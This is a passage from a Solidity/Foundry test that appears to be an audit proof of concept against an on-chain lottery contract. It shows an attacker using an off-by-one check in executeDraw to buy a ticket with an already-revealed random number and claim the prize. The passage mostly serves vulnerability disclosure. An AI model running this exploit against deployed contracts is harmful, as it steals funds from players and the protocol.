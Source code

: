```
    vm.warp(60 * 60 * 24 + 1);
    lot.finalizeInitialPotRaise();

    uint128[] memory drawId = new uint128[](1);
    drawId[0] = 0;
    uint120[] memory ticketsDigits = new uint120[](1);
    ticketsDigits[0] = uint120(0x0F); //1,2,3,4 numbers choosed;

    ///@dev Origin user buying ticket.
    lot.buyTickets(drawId, ticketsDigits, address(0), address(0));
    vm.stopPrank();

    //====start of attack====
    vm.startPrank(attacker);
    rewardToken.mint(1000 ether);
    rewardToken.approve(address(lot), 100 ether);

    console.log("attacker balance before buying ticket:               ", rewardToken.balanceOf(attacker));

    vm.warp(172800); //Attacker is waiting for deadline of draw period, than he could call executeDraw();
    lot.executeDraw(); //Due to the lack of condition check in executeDraw(`<` should be `<=`). Also call was sent to chainlink.
    uint256 randomNumber = 0x00;
    vm.stopPrank();

    vm.prank(address(randomNumberSource));
    lot.onRandomNumberFulfilled(randomNumber); //chainLink push here randomNumber;
    uint256 winningTicketTemp = lot.winningTicket(0); //random number from chainlink stores here.
    console.log("Winning ticket number is:                            ", winningTicketTemp);

    vm.startPrank(attacker);
    uint128[] memory drawId2 = new uint128[](1);
    drawId2[0] = 0;
    uint120[] memory winningArray = new uint120[](1);
    winningArray[0] = uint120(winningTicketTemp); //@audit we will buy ticket with stealed random number below;

    lot.buyTickets(drawId2, winningArray, address(0), address(0)); //attacker can buy ticket with stealed random number.

    uint256[] memory ticketID = new uint256[](1);
    ticketID[0] = 1;
    lot.claimWinningTickets(ticketID); //attacker claims winninngs.
    vm.stopPrank();

    console.log("attacker balance after all:                          ", rewardToken.balanceOf(attacker));
  }

  function reconstructTicket(
    uint256 randomNumber,
    uint8 selectionSize,
    uint8 selectionMax
  ) internal pure returns (uint120 ticket) {
    /// Ticket must contain unique numbers, so we are using smaller selection count in each iteration
    /// It basically means that, once `x` numbers are selected our choice is smaller for `x` numbers
    uint8[] memory numbers = new uint8[](selectionSize);
    uint256 currentSelectionCount = uint256(selectionMax);

```